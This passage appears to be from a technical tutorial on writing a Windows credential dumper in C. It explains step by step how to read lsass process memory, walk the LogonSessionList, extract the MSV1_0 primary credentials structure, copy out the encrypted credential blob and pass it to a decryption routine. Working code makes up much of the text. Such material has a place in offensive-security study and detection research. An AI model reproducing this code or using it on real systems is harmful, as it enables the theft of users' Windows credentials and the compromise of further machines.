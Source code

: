 We pull retrieve our LogonSessionList pointer from remote memeory, and store it locally.  Then we read the LogonSessionList head at that remote memory address and store it locally.  Then save the head list address, and begin looping through all of the different LogonSessionList entries.

Now we can access the pointer to the `KIWI_MSV1_0_CREDENTIALS Credentials` so we pull that

```c
printf("Attempting to read security blob\n");
if (node.Credentials) { // base + 0x108
	printf("Pointer to KIWI_MSV1_0_CREDENTIALS found at: 0x%p\n", node.Credentials);
	KIWI_MSV1_0_CREDENTIALS Credentials = { 0 };
	if (ReadProcessMemory(hTarget, node.Credentials, &Credentials, sizeof(KIWI_MSV1_0_CREDENTIALS), NULL)) { //place struct in at this address
		printf("REMOTE Pointer to KIWI_MSV1_0_CREDENTIALS found at: 0x%p\n", node.Credentials);
		printf("local Pointer to KIWI_MSV1_0_CREDENTIALS found at: 0x%p\n", &Credentials);

		//read local address for new pointer
		PKIWI_MSV1_0_PRIMARY_CREDENTIALS pPrimaryCredentials = Credentials.PrimaryCredentials;
		KIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials = { 0 };
		getchar();
```

With the `KIWI_MSV1_0_CREDENTIALS` structure we can get a remote pointer to the `KIWI_MSV1_0_PRIMARY_CREDENTIALS` structure so we pull that and store the pointer inside of `pPrimaryCredentials`.  We also initialize a new struct to hold the contents of that struct once we read it here:

```c
	if (ReadProcessMemory(hTarget, pPrimaryCredentials, &PrimaryCredentials, sizeof(KIWI_MSV1_0_PRIMARY_CREDENTIALS), NULL)) {
					LSA_UNICODE_STRING LsaUnicodeString = PrimaryCredentials.Credentials;
```

Now we have a local copy of lsass's `KIWI_MSV1_0_PRIMARY_CREDENTIALS` structure.  This contains the `LSA_UNICODE_STRING` structure which has a remote pointer in lsass to the encrypted blob, so we read lsass's memory for the encrypted blob.

```c
	if (LsaUnicodeString.Length > 0 && LsaUnicodeString.Buffer) {
					SIZE_T blobSize = LsaUnicodeString.Length; // already in bytes
					BYTE* blob = (BYTE*)malloc(blobSize);
					if (blob) {
						if (ReadProcessMemory(hTarget, LsaUnicodeString.Buffer, blob, blobSize, NULL)) {
							printf("[+] Security Blob (%llu bytes)\n", (unsigned long long)blobSize);
```

For debugging purposes you can print out the hex, it makes it easy to tell once you have a decrypted blob and actually pull out useful data.

Then we just need to decrypt the blob.

```c
								// Optionally print as hex
								for (SIZE_T i = 0; i < blobSize; i++)
									printf("%02X ", blob[i]);
								printf("\n");

								printf("Entering Decrypt routine...\n");
								decryptBlob(blob, blobSize, keys);
```
